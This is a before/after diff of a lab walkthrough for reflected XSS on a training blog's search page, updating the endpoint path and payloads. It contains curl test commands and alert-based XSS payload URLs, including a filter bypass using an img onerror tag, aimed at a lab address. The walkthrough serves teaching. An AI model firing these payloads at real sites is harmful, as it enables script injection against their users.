

Before and after one commit to phwrscr1pt/Hackdaybc, a Markdown page: docs/walkthrough-xss.md, 3 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Update walkthrough-xss.md with correct search path
- Changed search endpoint from /search/?q= to /search/search?q=
- Updated business name from "Tech Blog" to "ByteWise Developer Blog"
- Fixed "Results for" to "Showing results for"
- Updated verification commands and working payloads

Co-Authored-By: Claude Opus 4.5 <noreply@anthropic.com>

````diff
--- a/docs/walkthrough-xss.md
+++ b/docs/walkthrough-xss.md
@@ -30,8 +31,8 @@ This lab focuses on **Reflected XSS**.
 
 ```
 ┌──────────────┐     ┌─────────────────┐     ┌──────────────────┐
-│   Attacker   │────►│    Tech Blog    │────►│     Victim       │
-│  Crafts URL  │     │    /search/     │     │  Clicks Link     │
+│   Attacker   │────►│ ByteWise Blog   │────►│     Victim       │
+│  Crafts URL  │     │ /search/search  │     │  Clicks Link     │
 └──────────────┘     │  (loc_xss_lab)  │     └──────────────────┘
                      │    Port 3000    │              │
                      └─────────────────┘              ▼
@@ -47,11 +48,11 @@ This lab focuses on **Reflected XSS**.
 ## Step 1: Explore the Search Feature
 
 1. Go to http://10.10.61.221/search/
-2. You'll see a "Tech Blog" with a search box
+2. You'll see "ByteWise Developer Blog" with a search box in the navbar
 3. Try a normal search: `javascript`
 4. Notice the search term appears in:
-   - The URL: `/search/?q=javascript`
-   - The page: "Results for: javascript"
+   - The URL: `/search/search?q=javascript`
+   - The page: "Showing results for: javascript"
    - The search box value
 
 ---
@@ -365,14 +366,16 @@ echo htmlspecialchars($_GET['q'], ENT_QUOTES, 'UTF-8');
 ## Quick Verification Commands
 
 ```bash
-# Test search endpoint
+# Test search homepage
 curl -s 'http://10.10.61.221/search/'
 
-# Test XSS (check if script tags are in response)
-curl -s 'http://10.10.61.221/search/?q=<script>alert(1)</script>' | grep -i script
+# Test search endpoint with query
+curl -s 'http://10.10.61.221/search/search?q=test' | grep "Showing results"
 
-# Test img tag payload
-curl -s 'http://10.10.61.221/search/?q=<img%20src=x%20onerror=alert(1)>'
+# Test XSS (check if img tag is reflected unescaped)
+curl -s 'http://10.10.61.221/search/search?q=<img%20src=x%20onerror=alert(1)>' | grep "<img src=x"
+
+# Note: <script> tags are filtered, but <img> works!
 ```
 
 ---
@@ -450,9 +451,14 @@ curl -s 'http://10.10.61.221/search/?q=<img%20src=x%20onerror=alert(1)>'
 <script>alert(1)</script>
 ```
 
-**Best payload for this lab:**
+**Best payload for this lab (open in browser):**
 ```
-http://10.10.61.221/search/?q=<img src=x onerror=alert(document.domain)>
+http://10.10.61.221/search/search?q=<img src=x onerror=alert(document.domain)>
+```
+
+**URL-encoded version:**
+```
+http://10.10.61.221/search/search?q=%3Cimg%20src=x%20onerror=alert(document.domain)%3E
 ```
 
 ---
````
Also changed, not shown: other parts of docs/walkthrough-xss.md (+7 -8 lines).
